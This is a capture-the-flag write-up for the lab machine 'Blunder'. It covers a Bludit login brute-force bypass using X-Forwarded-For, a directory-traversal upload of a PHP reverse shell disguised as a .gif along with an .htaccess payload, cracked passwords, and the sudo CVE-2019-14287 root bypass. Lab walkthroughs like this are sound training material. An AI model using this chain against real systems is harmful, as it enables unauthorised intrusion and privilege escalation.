


# Blunder

This is the write-up for the box Blunder that got retired at the 17th October 2020.
My IP address was 10.10.14.5 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.191    blunder.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/blunder.nmap 10.10.10.191
```

```
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Blunder | A blunder of interesting facts
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

## Checking HTTP (Port 80)

The website looks like a blog with different facts and none of the links have a file extension such as _html_ or _php_.

Lets search for hidden directories with **Gobuster**:
```
gobuster -u http://10.10.10.191 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds _todo.txt_ that has a potential username of _fergus_:
```
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```

It finds the directory _admin_ that forwards to a login page with the title **Bludit**:



The software [Bludit](https://www.bludit.com/) is a **Content Management System (CMS)** that uses JSON format to store contents and no database.

When trying to login with any credentials, the HTTP response contains a _Cookie header_ and a **CSRF Token** in the data:
```
POST /admin/ HTTP/1.1
Host: 10.10.10.191
(...)
Cookie: BLUDIT-KEY=3c6vkun1o092i1r94bjad1s6f1
(...)

tokenCSRF=d5c13e6904f13f2bc31d89836d20f1261813bf51&username=admin&password=pass123&save=
```

After sending the response twice, the response resolves in a HTTP status code _301 Moved Permanently_ and sends a _Set-Cookie_ header:
```
HTTP/1.1 301 Moved
(...)
X-Powered-By: Bludit
Set-Cookie: BLUDIT-KEY=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0
Location: /admin/login
(...)
```

That means that the **CSRF token** is valid once and a new one has to be generated when trying to bypass the authentication.
There is also a Brute-Force protection, which blocks our IP address after ten unsuccessful login attempts.

### Brute Forcing Authentication to Bludit

To bypass the Brute-Force protection, this [blog article from rastating](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) explains to use the _X-Forwarded-For_ header:
```
POST /admin/ HTTP/1.1
Host: 10.10.10.191
(...)
X-Forwarded-For: 127.0.0.1
(...)
```

Creating a custom wordlist from the blog with **CeWL**:
```
cewl http://10.10.10.191 > wordlist.txt
```

A Python script can be found in this repository that generates new CSRF tokens and brute forces the password of _fergus_ with the custom created wordlist:
```
python3 blunder_bruteforce-bludit.py
```

After a while it gets found and login works:
```
fergus:RolandDeschain
```



### Exploiting Bludit

When searching for public vulnerabilities for **Bludit**, there is an **Arbitrary File Upload** that allows to upload images and change the type to PHP to execute system commands:
```
searchsploit bludit

Bludit - Directory Traversal Image File Upload
```

I will use the PHP reverse shell _php-reverse-shell.php_ from the **Laudanum** scripts.

Uploading the image _(php-reverse-shell.gif)_ file and using **Directory Traversal** in the HTTP request to upload it to the _/tmp_ folder:
```
New Content --> Images --> php-reverse-shell.gif
```
```
POST /admin/ajax/upload-images HTTP/1.1

(...)
../../tmp
-----------------------------89889305719326295832627084894
Content-Disposition: form-data; name="tokenCSRF"
(...)
```

Creating _.htaccess_ file that will make _gif_ files executable:
```
RewriteEngine off
AddType application/x-httpd-php .gif
```

Uploading _htaccess.gif_ and renaming it to _.htaccess_ in the HTTP request and uploading it to the _/tmp_ folder:
```
POST /admin/ajax/upload-images HTTP/1.1
(...)

Content-Disposition: form-data; name="images[]"; filename=".htaccess"
Content-Type: image/gif

RewriteEngine off
AddType application/x-httpd-php .gif

(...)

../../tmp
-----------------------------277053525017968010213846080345
Content-Disposition: form-data; name="tokenCSRF"
(...)
```

The uploaded shell can be found in _/bl-content/tmp/php-reverse-shell.gif_ and after browsing there, the listener on my IP and port 9001 starts a reverse shell as _www-data_.

## Privilege Escalation

In _/var/www/bludit-3.10.0a/_ is the another version of **Bludit** and the file _bl-content/databases/users.php_ contains a password for the user _Hugo_:
```
admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
(...)
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
```

As the hash has 40 characters, it is a **SHA1 hash** and can be found on public hash databases like [CrackStation](https://crackstation.net/):
> Password120

The user exists on the box and switching users is possible:
```
su hugo
```

### Privilege Escalation to root

When checking the root privileges of _hugo_, it shows that the user can run _/bin/bash_ as everyone other than root:
```
sudo -l

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

This configuration has a [vulnerability CVE-2019-14287](https://www.whitesourcesoftware.com/resources/blog/new-vulnerability-in-sudo-cve-2019-14287/) which makes it possible to bypass this restriction and run commands as root anyway:
```
sudo -u#-1 /bin/bash
```

This starts a shell session as root!
